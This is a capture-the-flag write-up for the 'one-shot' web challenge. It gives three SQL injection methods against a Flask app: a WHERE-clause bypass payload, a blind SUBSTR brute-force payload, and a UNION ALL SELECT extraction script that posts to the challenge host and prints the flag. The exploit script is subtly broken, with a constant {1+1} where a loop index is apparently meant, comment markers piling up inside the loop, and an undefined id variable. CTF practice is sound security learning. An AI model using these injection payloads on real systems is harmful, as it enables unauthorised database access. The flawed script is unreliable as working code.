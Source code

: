 ```python!=
    return "Internal server error"

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000, debug=True)
```

This challenge has 3 way to solve and i solve with the easiest way. 
* First method:
> The first method is inject the id in route `guess` to bypass `WHERE password = ?`. Because the regex just check if the not the id with 16 length and match with `1234567890abcdef` it will return "invalid id". So just input the right id and send the payload after that. 
![image](https://i.ibb.co/V2KxwmL/image-2024-04-13-112055544.png)
> Payload: `id = id WHERE 1=1 OR 1=?--&password=test`
* Second method: 
> First, i create the session and use intercept in burpsuite to catch the id table. So they can not update the table id or drop it. Then create a new session and use that to inject to this query. `query = db.execute(f"SELECT password FROM table_{id} WHERE password LIKE '%{request.form['query']}%'")` That the payload is inject to the query and brute force the table's password that i create at the first time. And create a new session to brute force until get the password and use that to get the password with the first table's id and get the flag. This just the idea after i solve by the 1st method so i do not build a full script for this.
> Payload: `query = a' OR SUBSTR((SELECT password FROM table_{created_table}),{i},1)='{char};--'
* Third method (The intended way):
>`{"".join([f"<li>{row[0][0] + '*' * (len(row[0]) - 1)}</li>" for row in query.fetchall()])}`
> As you can see in the source code, it just show the first character of password. So what if union with each character of the password using substring ?

Exploit script:

```python!=
import requests
from bs4 import BeautifulSoup

url = "http://one-shot.amt.rs"

payload = "'% "
for i in range(1, 32):
    payload += f"UNION ALL SELECT SUBSTR(password, {1+1}) || SUBSTR(password, 1, {i}) FROM table_{id}"
    payload += "--"
data = {
"id": id, # input the id of the table
"query": payload
}

response = requests.post(url+'/search', data=data)
soup = BeautifulSoup (response.text, 'html.parser')
passwords = ''.join([li.text[0] for li in soup.find_all('li')])
print(passwords)
```

Flag: `amateursCTF{go_union_select_a_life}`
